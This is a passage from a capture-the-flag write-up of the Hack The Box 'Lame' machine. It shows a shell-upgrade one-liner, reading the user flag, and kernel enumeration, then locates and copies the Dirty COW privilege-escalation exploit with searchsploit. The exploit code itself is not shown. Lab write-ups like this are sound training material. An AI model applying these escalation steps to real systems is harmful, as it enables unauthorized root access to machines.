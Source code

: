 service:

user:
python -c "import pty; pty.spawn('/bin/bash')"
daemon@lame:/home$ cd makis
cd makis
daemon@lame:/home/makis$ ls
ls
user.txt
daemon@lame:/home/makis$ cat user.txt   
cat user.txt
c1818...userFlag...15180
daemon@lame:/home/makis$

## Privilege Escalation

### Dirty Cow

Now that I had an shell, the next step is to get to a root shell. The first thing I checked was what release of the OS the machine was running:

daemon@lame:/home/makis$ uname -a
uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
daemon@lame:/home/makis$

That third result, `2.6.24-16-server`, is what you’re looking for in this command. The first result I got for a privesc exploit on that release was this [exploit-db](https://www.exploit-db.com/exploits/40839) page that showed that this version was vulnerable to Dirty COW. This is a famous kernel exploit that, according to it’s [website](https://dirtycow.ninja/), uses a race condition in how copy-on-write (COW) breakage is handled for read only memory, and uses this to elevate your privileges. The nice thing about the exploit being on exploit-db is that it is already present in Kali, we just need to copy it. The number I used for the search, 40839, can be found in the exploit-db URL or you could use `searchsploit` with other search terms to find the exploit:

~/Documents/htb/lame » searchsploit 40839        
-----------------------------------------------------------------------
 Exploit Title                                                                       |  Path
-----------------------------------------------------------------------
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE\_POKEDATA' Race Condition Privilege E | linux/local/40839.c
-----------------------------------------------------------------------
Shellcodes: No Results
-----------------------------------------------------------------------
~/Documents/htb/lame » searchsploit 40839 -m                                                                       
  Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE\_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
      URL: https://www.exploit-db.com/exploits/40839
     Path: /usr/share/exploitdb/exploits/linux/local/40839.c
File Type: C source, ASCII text

Copied to: /home/connor/Documents/htb/lame/40839.c
